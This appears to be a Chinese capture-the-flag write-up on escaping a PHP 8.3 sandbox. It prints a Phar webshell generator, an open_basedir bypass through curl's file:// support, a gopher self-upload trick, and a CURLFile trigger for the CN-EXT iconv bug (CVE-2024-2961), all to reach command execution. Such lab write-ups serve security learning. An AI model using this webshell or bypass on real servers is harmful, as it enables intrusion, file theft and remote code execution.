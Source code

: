 ## php-jail-is-my-cry

> Break out the jail and hear my CURL cry

本题其实给了 Docker 环境, 建议在本地打一遍, 将 Error 类从黑名单中移除, 这样能在日志看到报错

我们先说一下预期解, 再把大家可能遇到的问题给解决一下。

预期的思路：

1. 利用 phar include gz 压缩解析漏洞上马 (仅能通过 curl 读文件, `file_put_contents` 写文件)
2. 利用 curl 绕过 open_basedir 读取 `/proc/self/maps`
3. 利用 include 函数拆解 payload 打 CN-EXT (CVE-2024-2961)

大致分为这三步，但是中间还是有很多细节上的东西。因为本次使用了 PHP 8.3.0 高版本导致很多之前的特性都用不了，之后我们也会详细谈谈为什么选取这个版本。

### 第一步

我们参考文章 [当include邂逅phar——DeadsecCTF2025 baby-web.pdf](https://wx.zsxq.com/group/2212251881/topic/1524844181242522) [可选外链: https://xz.aliyun.com/news/18584]

我们可以通过下面代码生成一个可用的恶意 Phar, 将马写到 Stub 中

```php
<?php
$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->setStub(
'
<?php echo 111;
if ($_GET[0] == 0){
file_put_contents($_POST[0], $_POST[1]);
}
if ($_GET[0] == 1){
$orig = $_POST[0];
$ch = curl_init($orig);
curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$data = curl_exec($ch);
echo $data;
curl_close($ch);
}
__HALT_COMPILER(); ?>
'
);
$phar->addFromString('kengwang', '111');
$phar->stopBuffering();
?>
```

之后再通过 gzip 压缩

```shell
gzip -c payload.phar > shell.phar
```

我们上传后即可使用这个马

### 第二步

这个绕过 `open_basedir` 很容易就能在网上搜索到: [open_basedir bypass using curl extension](https://github.com/php/php-src/issues/16802)

加了个这个的原因是在 PHP 8.3 这种高版本中还存在过这样的绕过漏洞，并且似乎国内还没人提到？

> 这个也只是做个分享吧，也都没藏了，马写上去之后都是可以读到我的 `index.php` 写的

我们可以利用

```php
curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
```

再加上 `file://` 协议即可绕过 open_basedir 的限制，可以读取任意的文件。

利用：

```php
$orig = $_POST[0];
$ch = curl_init($orig);
curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$data = curl_exec($ch);
echo $data;
curl_close($ch);
```

我们可以读取任意的文件

### 第三步

其实很多师傅到这里应该都想到了 cn-ext, 毕竟题目明示了要 RCE，但现在唯独缺少的就是合适的触发点和触发方法。

我们很明显就注意到了 `include`

但是现在有个亟待解决的问题就是: 我们并未开启 `allow_url_include`, 也就是说我们包含的内容必须最终指向一个文件, 而 cn-ext 脚本所生成的最终是落到了一个 data 上, include 会被拒绝导致无法触发。

但是我们现在是有 `file_put_contents` 在限制的目录下写内容, 我们可以将这需要通过 filter chain 的内容写到一个文件中, 然后再讲原始 filter chain 的来源指向这个文件, 同样也能触发.

我们可以直接使用 kezibei 的生成脚本来在本地生成这样一个文件, 可以不用花时间改原来脚本中繁琐的 `check_vuln` 还有交互式获取文件内容。我们只需要让其执行 `/readflag > /tmp/flag` 即可

> 脚本生成 Payload 不再赘述

题解结束

下面是对一个情况的讨论:

* 为什么我尝试使用 gopher 攻击 fpm 并不奏效

可以参考 [P神的解释](https://wx.zsxq.com/group/2212251881/topic/2852124428812211)

或者你也可以参考这个 [Issue](https://github.com/curl/curl/issues/14219)

简而言之, gopher 支持 NULL byte 并不是一个预期的行为, 在 RFC 中明确规定了 gopher 的 url 不应当支持 NULL byte, 但是在某一个版本的 cURL 却开始错误的允许了这个行为. 当然之后也被重新限制 (在 [7.45.0,7.71.0] 期间可以发送, 在 [此 Commit](https://github.com/curl/curl/commit/31e53584db5879894809fbde5445aac7553ac3e2) 中修复, 在 [此 Commit](https://github.com/curl/curl/commit/5bf36ea30d38b9e00029180ddbab73cab94a2195) 被引入 by @orangetw)

而我们要攻击 php-fpm 必须要使用到 NULL byte, 故这样的 gopher url 在新版本中并不能成功发送。

下面是对两个非预期解题方法的披露

* 第一步的落马 (by IHK-1)

观察到我们存在从 URL 读取文件内容后并没有进行文件内容过滤, 我们可以让这个 URL 的内容包含我们的木马.

观察到当前页面在上传成功文件后会将文件名显示出来, 我们考虑构造一个上传包, 将文件名改为木马, 并且下载这个上传成功的页面.

这个时候我们的 gopher 协议可以登场了, 我们可以用 gopher 协议对 `127.0.0.1:80` 发起一个上传文件包, 将文件名写为木马的名字, 此时获取到的内容中就包含了木马了. 在结尾处我们加上一个 `%0D%0A/shell`, 让 basename 后的文件名正常一点. 我们就可以用这个木马文件来进行操作了

* 最后一步的触发

通过对 `get_declared_classes` 解除禁用, 与黑名单对照, 发现少 ban 了 `CURLFile`, 通过对 PHP 源码的审计, 发现 `CURLFile` 是由 PHP 解析, 并且能够走到 filter 解析逻辑中的, 故我们也可以使用这个 CURLFile 来触发 CN-EXT

```php
<?php
$cu = curl_init('http://localhost/');
curl_setopt($cu, CURLOPT_RETURNTRANSFER, true);
curl_setopt($cu, CURLOPT_POST, true);
$f = new CURLFile($_POST[0]);
curl_setopt($cu, CURLOPT_POSTFIELDS, [
    'f' => $f,
]);
$data = curl_exec($cu);
echo $data;
```

所以, 其实最符合题目, 最 cURL 的一个解题方法是:

* 利用 curl 下载 gopher 下马
* 利用 curl 绕过 open_basedir
* 利用 CURLFile 触发 cn-ext